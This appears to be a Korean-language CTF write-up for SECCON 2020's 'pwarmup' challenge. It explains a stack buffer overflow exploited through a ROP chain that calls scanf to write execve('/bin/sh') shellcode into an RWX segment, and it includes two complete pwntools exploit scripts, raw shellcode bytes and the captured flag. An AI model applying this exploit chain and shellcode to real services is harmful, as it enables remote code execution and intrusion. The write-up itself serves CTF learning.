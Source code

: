 # pwarmup
### #rwx_segment #rop #pwn #pwntools

---

rop 상황에서 pwntools 의 사용을 극대화 시킬 수 있었던 문제. 

![sec](../../.images/pwarmup1.png)

우선 보호기법을 확인해보니 **RWX** 권한이 있는 영역이 있다고 한다.

**gdb** 로 확인해보면, `0x600000` 부분부터 `0x601000` 까지 **rwx** 권한이 있음을 알 수 있다. NX 도 안걸려있고, 저 부분이 쉘코드를 올릴 자리임을 알 수 있었다.

![vmmap](../../.images/pwarmup2.png)

바이너리의 코드를 확인해보자.

```C
/*
    main.c
*/
#include <unistd.h>
#include <stdio.h>

int main(void) {
  char buf[0x20];
  puts("Welcome to Pwn Warmup!");
  scanf("%s", buf);
  fclose(stdout);
  fclose(stderr);
}

__attribute__((constructor)) // main 보다 먼저실행
void setup(void) {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);
  alarm(60);
}

```

간단한 코드이다. 가젯확인결과 바이너리에 쓸만한 가젯들도 있고, rop 를 시전할 수 있을 것 같았다. 하지만, **libc** 를 leak 할만한 함수가 보이지 않아서 **libc** 를 이용하는 것은 생각하지않았다.

여기서 사용한 전략은 이렇다.

> BOF -> ROP gadget 을 이용한 `scanf("%s",0x600000);` 실행 -> scanf 실행 뒤에 `execve("/bin/sh");` 쉘코드 입력 -> 0x600000 실행

![gdb](../../.images/pwarmup3.png)

위의 전략대로 익스플로잇 코드를 짜고 로컬에서 실행해보았는데, 로컬에서 안되는 바람에 한참 막혔다.

아무리 명령어를 쳐도 결과물이 보이지않는다. 나중에 `fclose(stdout)` 때문이라는 것을 알았고, `ls>&0` 로 살아있는 `stdin` 디스크립터에 출력을 리다이렉트 시켜서 플래그를 얻을 수 있었다.

![res](../../.images/pwarmup4.png)


```python
from pwn import *
context.arch='amd64'
elf=ELF("./chall")
scanf_plt=elf.plt['__isoc99_scanf']
scanf_arg0=0x40081B # "%s"
prdi=0x4007e3
prsi=0x4007e1
rwx=0x600000 # ~~ELF~~~ => starting point of binary
shellcode="\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
#s=process("./chall")
s=remote('pwn-neko.chal.seccon.jp',9001)
pause()
payload=b"a"*40
payload+=p64(prdi)
payload+=p64(scanf_arg0)
payload+=p64(prsi)
payload+=p64(rwx)
payload+=p64(0xdeadbeef)
payload+=p64(scanf_plt)
payload+=p64(rwx)
s.sendline(payload) # scanf in 0x600000 (rwx segment)
s.sendline(shellcode) # shellcode in 0x600000
s.interactive()
```



***\* 해당 [write up](https://github.com/mephi42/ctf/blob/master/2020.10.10-SECCON_2020_Online_CTF/pwarmup/pwnit.py) 을 참고하여 추가정리***

막판에 `stdout` 을 대처하는 방법이 위 링크에 있었다.

glibc 함수 중에는 인자로 오는 파일 디스크립터를 복붙해주는 `dup(arg)` 함수가 있는데, 이를 `stdin` 을 인자로 하여 syscall 로 호출하면 `stdout` 이 사용하는 1번 파일 디스크립터에 `stdin` 이 복사되어 소켓통신 중에 출력을 온전하게 볼 수 있다.
해당 풀이자의 익스 코드는 아래와 같다.

```python
#!/usr/bin/env python3
from pwn import *

BINARY = 'pwarmup/chall'


def connect():
    if args.LOCAL:
        return gdb.debug([BINARY], gdbscript='''
b *0x400707
c
''')
    else:
        return remote('pwn-neko.chal.seccon.jp', 9001)


def main():
    context.arch = 'amd64'
    percent_s = 0x40081B
    rwx = 0x600000
    rop = ROP([ELF(BINARY)])
    rop.call('__isoc99_scanf', [percent_s, rwx])
    rop.raw(rwx)
    rop = rop.chain()
    shellcode = asm(
        '''mov rax, 31
        inc rax
        xor rdi, rdi
        syscall
''' +
        shellcraft.amd64.linux.sh(),
        arch='amd64')
    #main_addr = 0x4006B7
    #puts_plt_addr = 0x400580
    #pop_rdi_ret_addr = 0x4007e3
    #puts_got_addr = 0x4006B7  # 0x600BB8
    whitespace = b'\x0a\x0b\x20'
    assert all(c not in rop for c in whitespace)
    assert all(c not in shellcode for c in whitespace)
    with connect() as tube:
        tube.sendline(flat({0x28: rop}))
        tube.sendline(shellcode)
        tube.interactive()  # SECCON{1t's_g3tt1ng_c0ld_1n_j4p4n_d0n't_f0rget_t0_w4rm-up}


if __name__ == '__main__':
    main()
```

.

.

.

**Contact:** a42873410@gmail.com



